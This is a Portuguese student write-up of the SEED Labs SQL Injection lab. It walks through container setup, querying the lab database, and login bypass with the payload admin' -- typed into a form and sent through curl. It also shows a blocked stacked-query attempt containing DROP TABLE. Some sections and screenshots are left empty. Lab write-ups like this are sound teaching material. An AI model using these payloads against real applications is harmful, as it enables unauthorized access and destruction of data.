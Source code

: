 # SEED Labs - SQL Injection

## Setup

Inicialmente adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executando de seguida os containers fornecidos no lab e abrindo uma shell com acesso direto à base de dados. Utilizamos os seguintes comandos.

`sudo nano etc/hosts`
Em seguida colocamos no final do ficheiro:
`10.9.0.5 www.seed-server.com`

`dcbuild`:docker-compose build

`dcup`:docker-compose up

## Task 1

Começamos por correr o comando  `docker exec -it mysql-10.9.0.6 bash`, para abrir uma shell no container do MySQL. Em seguida usamos `mysql -u root -pdees` para login na base de dados. Para mostrar todas as tabelas dentro da mesma, usamos os seguintes comandos

```sql
use sqllab_users;
show tables;
```

Finalmente para obtermos os dados da Alice corremos `SELECT * FROM credential WHERE name='Alice'`

Resultando em:
![Add screenshot 1 here]()

## Task 2

### Task 2.1

Dado o trecho de código no ficheiro `unsafe_home.php`, a vulnerabilidade reside no facto de que as variáveis `input_uname` e `hashed_pwd` são inseridas diretamente na query sem a devida higienização. 

Uma vez que sabemos que o username da conta do administrador é "admin", conseguimos explorar a vulnerabilidade de SQL Injection introduzindo `admin' --` no input do username:

    username: admin' --
    password: (qualquer coisa ou deixar em branco)

O `--` efetivamente transforma o resto da query num comentário, ignorando a verificação da palavra-passe.

Resultando em:
![]()!

### Task 2.2

Para realizar o mesmo ataque de injeção SQL mas na CLI usamos o comando:

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password='

```

### Task 2.3

Para adicionar uma nova instrução SQL normalmente usariamos um ponto e vírgula ;. No entanto, isto é prevenido como medida de segurança da extensão de PHP _mysqli_, para evitar a execução de múltiplas instruções numa só consulta.

Exemplo de uma tentativa que foi bloqueada por esta contramedida:

    Utilizador: admin'; DROP TABLE credential; --
    Palavra-passe: (qualquer coisa ou deixar em branco)


### Task 3






